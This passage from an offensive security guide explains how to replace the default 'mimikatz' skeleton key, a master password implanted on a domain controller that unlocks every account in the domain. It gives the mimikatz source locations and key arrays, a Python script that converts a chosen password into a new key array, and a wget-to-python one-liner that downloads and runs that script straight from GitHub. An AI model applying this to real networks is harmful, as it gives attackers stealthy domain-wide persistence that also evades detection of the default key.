


BONUS: change the skeleton key
The
Skeleton
key(Master Key) by default is “mimikatz” that converted to NT hash is “60BA4FCADC466C7A033C178194C03DF6”.
This password will work for any account in the domain.
The skeleton key is defined two times first in the
function “kuhl_misc_skeleton_rc4_init” and then in “kuhl_misc_skeleton_rc4_init_decryp”:
• New versions of
mimikatz(from
29/02/2016)
→ in the source code file
kuhl_m_misc.c(lines:607,634)
Master Key as the parameter:
DWORD kiwiKey[] = {0xca4fba60, 0x7a6c46dc, 0x81173c03, 0xf63dc094};”
• Old
versions of mimikatz → in the source code file
kuhl_m_misc.c(lines:672,700)
Master Key as the parameter:
BYTE kiwiKey[] = {0x60, 0xba, 0x4f, 0xca, 0xdc, 0x46, 0x6c, 0x7a, 0x03, 0x3c,
0x17, 0x81, 0x94, 0xc0, 0x3d, 0xf6};
If we went change the default skeleton key “mimikatz” in the New
versions of mimikatz, we can do that by following these steps:
from sys import argv
password=argv[1]
print("The password inserted is --> " + str(password))
import hashlib,binascii
hash = hashlib.new('md4', password.encode('utf-16le')).digest()
nt= binascii.hexlify(hash)
print("The NTLM calculated is --> " + str(nt))
kiwikey=[]
splits=[nt[i:i+8] for i in range(0, len(nt), 8)]
for j in splits:
reverse="".join(reversed([j[i:i+2] for i in range(0, len(j), 2)]));
kiwikey.append("0x"+reverse)
kiwikey2=str(kiwikey)
kiwikey=kiwikey2.replace("'", "")
kiwikey2=kiwikey.replace("[", "{")
kiwikey= kiwikey2.replace("]", "}")
print("The kiwikey calculated is --> " + str(kiwikey))
We can run it also by directly use wget:
wget -qO - https://raw.githubusercontent.com/DenFox93/passwordToSkeletonKey/main/converter.py | python - <PASSWORD>
wget
▪ -O <file>, --output-document=<file> → the document of the url will be saved
with the filename specified. If - is used as file, documents will be printed to standard output
▪ -q, --quiet
→ Turn off Wget's output
python
▪ - → read from standard input and not from file
 